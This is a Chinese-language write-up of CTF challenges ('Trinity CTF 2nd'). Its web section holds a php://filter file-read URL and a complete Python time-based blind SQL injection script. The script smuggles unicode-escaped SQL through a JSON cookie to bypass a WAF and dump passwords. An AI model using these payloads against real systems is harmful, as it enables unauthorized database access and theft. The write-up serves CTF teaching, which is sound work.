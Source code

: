 ## Writeup For Trinity CTF 2nd

### Web

#### flag宝典

这题一共有10000个页面，但是后台通过检查referer来判断是不是一页一页地读。通过burpsuite重放就能发现是改referer了（因为同样的包发到相邻的页面有响应，发到不相邻的页面有报错，删去referer直接报错并跳回首页）。接下来就是猜有几页的问题……好吧 我应该提示一下大家一共有几页的，但看不少人猜到了我就不放提示了

```
Note: 如果你想自己搭建这个题目，需要将服务器的默认策略修改。参见：

sudo sed -i 's/\/var\/www\/html/\/var\/www\/html\/index.php/'  /etc/apache2/sites_available/000-default.conf

echo -e "<Directory /var/www/html/flag_book>\n\tRequire host 127.0.0.1\n</Directory>" >> /etc/apache2/apache2.conf
```

#### flag宝典2

这题是上一题的文件换层皮。写过爬虫的都知道，互联网中有一个“君子协定”，即`robots.txt`，这里写明了不允许爬虫爬的页面，有时候这里包含了敏感信息等。用Disallow来标识这些页面。或者你也可以用burpsuite的spider功能发现robots.txt页面。

然后从robots.txt中得到提示，下载index.phps文件。得到提示后发现不能直接读取flag内容，否则会给你`no flag here`的提示。但是可以用PHP伪协议绕过，将flag.php内容进行base64编码后即可。

```
http://210.28.133.37:10081/php://filter/read=convert.base64-encode/resource=flag.php
```

这题同样需要将`000-deault.conf`的默认配置改为`index.php`，参见上题

#### 六脉神剑

这题来自HCTF 2018 kzone

突破口是使用御剑或其他的目录扫描工具把网站的源码备份`www.zip`下载下来。在实际部署中，是有很多开发者忘记将这个文件删除的。

得到源码后，进行审计。可以发现所有的我们能决定的输入都经过了`safe.php`，只有一处例外，也就是`member.php`，在此处的cookie是经过防火墙后再json decode后才查数据库的，我们可以在此处做文章，用json decode的特性绕过防火墙，然后进行时间盲注。

以下是测试的时候用的攻击代码，emmm 有许多注释的地方，因为懒得为每一个攻击阶段写函数了。

```
import requests

import time
from requests.cookies import RequestsCookieJar

sleep_time = 1
error_time = 0.5


def getpayload(index,position,guess):
	cookie = {
			#"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/passw\u006frd/**/from/**/fish_admin/**/limit/**/0,1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(3),0)\u0023","admin_pass":"9306270da3f08efeea003b7247d3acd9443fdc0f"}'''
			#, "islogin":"1" 
			#"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/username/**/from/**/fish_admin/**/limit/**/0,1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(3),0)\u0023","admin_pass":"9306270da3f08efeea003b7247d3acd9443fdc0f"}'''
			"islogin":"1" ,
			#"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/name/**/from/**/fish_admin/**/limit/**/0,1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(3),0)\u0023","admin_pass":"9306270da3f08efeea003b7247d3acd9443fdc0f"}''', "islogin":"1" ,
			#"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/group_concat(table_name)/**/from/**/inf\u006frmation_schema.tables/**/where/**/table_schema\u003d'TrinityFTC'/**/limit/**/'''+str(index)+r''',1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(1),0)\u0023","admin_pass":""}''',
			#"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/group_concat(table_name)/**/from/**/inf\u006frmation_schema.tables/**/where/**/table_schema\u003d'hctf_kouzone'/**/limit/**/'''+str(index)+r''',1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(3),0)\u0023","admin_pass":""}''',
			#"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/group_concat(column_name)/**/from/**/inf\u006frmation_schema.columns/**/where/**/table_name\u003d'I_love_CTF'/**/limit/**/'''+str(index)+r''',1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(1),0)\u0023","admin_pass":""}''',
			"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/group_concat(passw\u006frd)/**/from/**/I_love_CTF/**/limit/**/'''+str(index)+r''',1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(1),0)\u0023","admin_pass":""}''',
			#"islogin":"1" ,
			#"PHPSESSID":"jve3hsp7vtaaj8amil6p34nvo7"}
			}
	#print(cookie)
	#print("pos:%d,gues:%d" %(position,guess))
	return cookie

allflag= []
flag= ''
def Go():
	url = r"http://210.28.133.37:10082/include/common.php"
	global flag ,allflag
	for index in range(1):
		for pos in range(1,256):
			got_something = False
			for char in range(0x20,0x7f):
				payload = getpayload(index ,pos,char) 
				beforetime = time.time()
				r = requests.get(url , cookies=payload)
				endtime = time.time()
				use_time = endtime - beforetime
				#print(r.text)
				if abs(use_time) > sleep_time  :
					flag += chr(char)
					print("flag:%s" % flag)
					got_something = True
					break 
				else :
					pass
			if not got_something:
				break
		allflag.append(flag)
		flag = ''


if __name__ == "__main__":
	try:
		Go()
	except Exception:
		print(allflag)
	print(allflag) 

```

Note: 上述是HCTF的非预期解。预期解是依赖于MySQL新版本的保存信息的表(innodb_table_stats,innodb_index_stats)不含关键字`or`的特性。详见[官方writeup](https://bysec.io/hctf/writeup.html)

### Pwn

#### Babypwn
通过`ida`分析可以发现程序存在栈溢出和格式化字符串漏洞，最简单的方法是直接用格式化字符串`leak`出`secret`然后就`get shell`.又或者用格式化字符串把`canary`和程序的基地址`leak`出来后做`ROP`

### Misc

#### Babymisc
这属于这场比赛的签到题，根据提示我们知道这个是用`Asciidots`写的脚本，我们去找到这个语言，看看语法，就可以发现其实脚本里面的每一个字母的作用都是打印出一个字符的`ascii`值，连起来就是`flag`.直接运行的话打出来的字符是乱序的，这个和解释器解析脚本的方法有关。

### Reverse

#### Babyre
给了一个文本文件，里面是汇编代码，直接编译成二进制文件然后用`ida`分析即可

#### Babyre2
和作业题是一样的思路。`main`函数被简单的加密了。详情看题目的源代码即可。

### Crypto
#### yafu
简单的题目。安装yafu即可，百度也能搜索到yafu的使用方法。直接暴力破解这个大数，然后使用gmpy2将密文解密即可